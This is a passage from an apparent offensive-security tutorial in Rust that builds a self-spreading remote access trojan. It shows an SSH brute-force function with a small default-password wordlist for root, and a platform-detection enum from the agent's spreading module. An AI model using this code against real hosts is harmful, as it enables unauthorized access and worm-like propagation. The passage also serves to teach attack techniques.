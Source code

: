 
### Bruteforce


Then comes the SSH bruteforce. For that, we need a wordlist.

While a smarter way to bruteforce a service is to use predefined (`(username, password)` pairs known to be used by poorly-secured devices, here we will try the most used passwords for each username.

**[ch_13/rat/agent/src/wordlist.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/wordlist.rs)**
```rust
pub static USERNAMES: &'static [&str] = &["root"];

pub static PASSWORDS: &'static [&str] = &["password", "admin", "root"];
```


```rust
fn bruteforce(ssh: &Session) -> Result<Option<(String, String)>, crate::Error> {
    for username in wordlist::USERNAMES {
        for password in wordlist::PASSWORDS {
            let _ = ssh.userauth_password(username, password);
            if ssh.authenticated() {
                return Ok(Some((username.to_string(), password.to_string())));
            }
        }
    }

    return Ok(None);
}
```


### Detecting the platform of the target

In Rust, the simplest way to represent the remote platform is by using an `enum`.

**[ch_13/rat/agent/src/spread.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/spread.rs)**
```rust
#[derive(Debug, Clone, Copy)]
enum Platform {
    LinuxX86_64,
    LinuxAarch64,
    MacOsX86_64,
    MacOsAarch64,
    Unknown,
}

impl fmt::Display for Platform {
    fn fmt(&self, f: &mut fmt::Formatter) -> fmt::Result {
        match self {
            Platform::LinuxX86_64 => write!(f, "linux_x86_64"),
            Platform::LinuxAarch64 => write!(f, "linux_aarch64"),
            Platform::MacOsX86_64 => write!(f, "macos_x86_64"),
            Platform::MacOsAarch64 => write!(f, "macos_aarch64"),
            Platform::Unknown => write!(f, "unknown"),
        }
    }
}
```
